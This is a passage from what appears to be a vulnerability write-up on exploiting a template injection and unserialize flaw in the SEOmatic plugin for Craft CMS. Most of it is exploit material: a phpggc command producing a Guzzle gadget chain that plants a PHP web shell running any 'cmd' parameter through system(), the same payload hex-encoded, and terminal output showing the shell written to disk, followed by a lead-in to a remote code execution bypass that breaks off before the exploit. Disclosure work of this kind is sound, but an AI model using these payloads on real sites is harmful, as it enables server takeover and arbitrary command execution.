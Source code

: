 ```bash
./phpggc Guzzle/FW1 /tmp/exploit.txt data -s    
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:41:"%00GuzzleHttp\Cookie\FileCookieJar%00filename"%3Bs:16:"/tmp/exploit.txt"%3Bs:52:"%00GuzzleHttp\Cookie\FileCookieJar%00storeSessionCookies"%3Bb:1%3Bs:36:"%00GuzzleHttp\Cookie\CookieJar%00cookies"%3Ba:1:{i:0%3BO:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"%00GuzzleHttp\Cookie\SetCookie%00data"%3Ba:3:{s:7:"Expires"%3Bi:1%3Bs:7:"Discard"%3Bb:0%3Bs:5:"Value"%3Bs:80:"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd'])%3B system($cmd)%3B }?>%0A"%3B}}}s:39:"%00GuzzleHttp\Cookie\CookieJar%00strictMode"%3BN%3B}

\\x4f\\x3a\\x33\\x31\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x22\\x3a\\x34\\x3a\\x7b\\x73\\x3a\\x34\\x31\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x66\\x69\\x6c\\x65\\x6e\\x61\\x6d\\x65\\x22\\x3b\\x73\\x3a\\x31\\x36\\x3a\\x22\\x2f\\x74\\x6d\\x70\\x2f\\x65\\x78\\x70\\x6c\\x6f\\x69\\x74\\x2e\\x74\\x78\\x74\\x22\\x3b\\x73\\x3a\\x35\\x32\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x46\\x69\\x6c\\x65\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x6f\\x72\\x65\\x53\\x65\\x73\\x73\\x69\\x6f\\x6e\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x62\\x3a\\x31\\x3b\\x73\\x3a\\x33\\x36\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x63\\x6f\\x6f\\x6b\\x69\\x65\\x73\\x22\\x3b\\x61\\x3a\\x31\\x3a\\x7b\\x69\\x3a\\x30\\x3b\\x4f\\x3a\\x32\\x37\\x3a\\x22\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x22\\x3a\\x31\\x3a\\x7b\\x73\\x3a\\x33\\x33\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x53\\x65\\x74\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x00\\x64\\x61\\x74\\x61\\x22\\x3b\\x61\\x3a\\x33\\x3a\\x7b\\x73\\x3a\\x37\\x3a\\x22\\x45\\x78\\x70\\x69\\x72\\x65\\x73\\x22\\x3b\\x69\\x3a\\x31\\x3b\\x73\\x3a\\x37\\x3a\\x22\\x44\\x69\\x73\\x63\\x61\\x72\\x64\\x22\\x3b\\x62\\x3a\\x30\\x3b\\x73\\x3a\\x35\\x3a\\x22\\x56\\x61\\x6c\\x75\\x65\\x22\\x3b\\x73\\x3a\\x38\\x30\\x3a\\x22\\x3c\\x3f\\x70\\x68\\x70\\x20\\x69\\x66\\x28\\x69\\x73\\x73\\x65\\x74\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x29\\x7b\\x20\\x24\\x63\\x6d\\x64\\x20\\x3d\\x20\\x28\\x24\\x5f\\x52\\x45\\x51\\x55\\x45\\x53\\x54\\x5b\\x27\\x63\\x6d\\x64\\x27\\x5d\\x29\\x3b\\x20\\x73\\x79\\x73\\x74\\x65\\x6d\\x28\\x24\\x63\\x6d\\x64\\x29\\x3b\\x20\\x7d\\x3f\\x3e\\x0a\\x22\\x3b\\x7d\\x7d\\x7d\\x73\\x3a\\x33\\x39\\x3a\\x22\\x00\\x47\\x75\\x7a\\x7a\\x6c\\x65\\x48\\x74\\x74\\x70\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x5c\\x43\\x6f\\x6f\\x6b\\x69\\x65\\x4a\\x61\\x72\\x00\\x73\\x74\\x72\\x69\\x63\\x74\\x4d\\x6f\\x64\\x65\\x22\\x3b\\x4e\\x3b\\x7d
```
![Seomatic SSTI](images/seomatic-ssti-unserialize.png)

Seccusesfully exploitation of vulnerability will creates `exploit.txt ` at `/tmp/` folder.

```bash
doge in ~/phpggc on master ● ● λ cat /tmp/exploit.txt 
[{"Expires":1,"Discard":false,"Value":"<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>\n"}]%                                    
doge in ~/IdeaProjects/GIT/phpggc on master ● ● λ cat data  
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); }?>
doge in ~/phpggc on master ● ● λ 

```

# Remote code execution 
A few days later I found better way to exploit this vulnerability. As I mentioned earlier method `evaluateDynamicContent` was disabled at Craft CMS but it was not at **Yii::Base::View**. As you may already know Twig template engine support variables. We can use them to create new **Yii::Base::View** object and call `evaluateDynamicContent` method directly and bypass protection mechanism. Final exploit will looks like.
